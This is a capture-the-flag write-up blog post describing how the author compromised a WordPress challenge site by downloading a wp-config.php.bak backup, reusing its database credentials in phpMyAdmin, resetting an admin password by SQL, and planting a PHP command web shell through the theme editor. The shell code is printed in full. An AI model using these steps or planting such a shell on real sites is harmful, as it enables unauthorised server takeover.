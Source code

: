 ```yaml
---
layout:     post
title:      "Writeup - Capture South Africa"
subtitle:   "Write-Up"
date:       2018-10-01 
author:     "Abhishek S"
permalink: /:title/
category: Boot2Root
---
```


![](/img/redteam/redteamlogo.png)


This is a write-up for the WEB-APP Challenge [Capture South Africa] in Redteamvillage’s CTF event at Defcon TVM 0x02.


![](/img/redteam/redteambanner.jpg)


Special thanks to my awesome team members of defcon_speakers_0x02 (Sreeram KL & Vishnuprasad PG)

<p>

http://l.xyz was a web application which was running wordpress instance, while doing basic enumeration, i noticed that the wordpress version used was the most latest one, and the first post was something fishy, the first post’s author name was ‘victimcorp’… i was checking for common vulnerablities that were present in wordpress, i checked for vulnerable plugins and stuff, but couldn’t find any and all were latest, i remember reading a POC in which wp-config file was downloadable, so i thought to try that, but i failed, then i tried adding a .bak (i.e: http://l.xyz/wp-config.php.bak) and there was a backup file, and it did download! </p>


<p>Hurray!!!, I’ve checked it and it was the common config file with the configuration & credentials of the database, I’ve got the username and password from there, I checked for the open ports & instances with nmap, and it was pretty surprising that there was no instance related to DB running, I suddenly got an idea, i just went into /phpmyadmin/ and tried the db credentials! hurray! i logged into the phpmyadmin dashboard, i went to the corresponding database and went to the table wp-users, the password for admin there was encrypted, so i got an idea, instead of decrypting that, i just encrypted ‘test123’ into wordpress salted pass, and updated the pass of user ‘victimcorp’ with an sql DML command.  </p>
  
 <p> 
then, i went to /wp-admin/ and logged into the admin account, we all thought that the flag would be inside the admin panel, but it was not there! where was it? suddenly i got an idea to shell the server, i went to themes, and added a .php file with the following code. </p>

```
<?
<HTML>
<BODY>
<FORM METHOD=”GET” NAME=”cmdform” ACTION=””>
<INPUT TYPE=”text” NAME=”linux command”>
<INPUT TYPE=”submit” VALUE=”command”>
</FORM>
<?
if($_GET[‘cmd’]) {
system($_GET[‘cmd’]);
}
?>
</BODY></HTML>
</code>
```


<p>
and used ls, and some basic commands, and the flag was inside the /www2/ directory in a file called flag.txt
This was a webapp challenge in the redteamvillage’s ctf, and i loved pr3wning it! There were 6 challenges in total, and our team managed to solve 5 of them, and won the 2nd place :) </p>

<p>
Thanks for reading, I hope it was a good read!
P.S: I’ve wanted to make a writeup for the other challenges too, but i don’t have much time with me in order to do that :(
Bug Bounty Hunting
  </p>
